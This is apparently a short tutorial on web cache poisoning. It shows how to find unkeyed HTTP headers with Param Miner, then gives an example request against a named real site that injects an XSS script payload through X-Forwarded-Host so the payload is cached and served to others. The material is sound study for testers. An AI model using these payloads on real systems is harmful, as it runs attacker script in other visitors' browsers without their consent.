 # Cache Poisoning:

**The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.This is mainly done by unkeyed inputs like HTTP headers**

## Methodology:

In the first step we will identify the Unkeyed Inputs, which can be done by using a burp extension named **Param Miner** which can be downloaded from **Bapp Store** for free. 
Whether a page gets cached may be based on a variety of factors including the file extension, content-type, route, status code, and response headers.

**Note: When auditing a live website, accidentally poisoning other visitors is a perpetual hazard. So we use Cache Buster. We can add a cache buster in a request by appending any ramdom Parameter like `/message.php?anythingrandom`**

***

**Example of XSS via Cache Poisoning:**


```
GET / HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host: url.com
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
X-Cache: Hit
…  
<meta property="og:image" content="https://url.com/cms/social.png" />
```


In the above code the `Param Miner` found that `X-Forwarded-Host:` is unkeyed input, and we can see that its value is been reflected in the meta tag in the response.

So, We will now change the Value of `X-Forwarded-Host` to XSS payload:

```
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host: hello.com"><script>alert(1)</script>  
  
HTTP/1.1 200 OK  
X-Cache: HIT
…  
<meta property="og:image" content="https://hello.com"><script>alert(1)</script>"/>
```

Now we can see that our javascript payload is escaped from double quotes and is properly executing.
Now If we send `http://www.redhat.com/en?dontpoisoneveryone=1` to anyone then the payload will be executed because it was stored in the `Cache Server` of the app with the Javascript Payload.
